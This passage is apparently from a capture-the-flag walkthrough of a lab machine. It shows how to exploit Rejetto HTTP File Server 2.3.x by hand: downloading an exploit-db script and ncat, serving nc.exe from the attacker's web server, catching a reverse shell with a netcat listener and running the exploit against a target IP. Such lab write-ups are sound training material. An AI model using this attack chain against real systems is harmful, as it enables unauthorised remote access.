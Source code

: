 If everything is set correctly you should gain a shell on the victims system.

### Manual Exploit

We can also exploit this machine manually without the use of metasploit framework by leveraging a python exploit for the Rejetto HTTP File Server.
* [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)](https://www.exploit-db.com/exploits/39161)

Download the exploit off exploitdb.com and then also download a windows netcat binary as this is required for the exploit to work.

```bash
wget https://www.exploit-db.com/download/39161 -O httpfileserver_exploit.py 
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe -O nc.exe
```

The exploit states that
> #EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe). 

So lets start up a simple python3 http server on port 80 where our nc.exe file is located.
```
sudo python3 -m http.server 80
```

You will have to edit the exploit and replace the following two variables within it with your attacking machines IP address and an open port to listen on.
```python
ip_addr = "10.11.11.11" #local IP address
local_port = "1337" # Local Port number
```

Start up a netcat listener to catch the reverse shell connection back that the exploit establishes.
```
sudo nc -nvlp 1337
```

Run the exploit and watch it hit your http server to download nc.exe, you might have to run the exploit multiple times for it to work.
```
python httpfileserver_exploit.py 10.10.223.221 8080 
```

You should receive a shell connection back to you as the `steelmountain\bill` user on the victim machine.
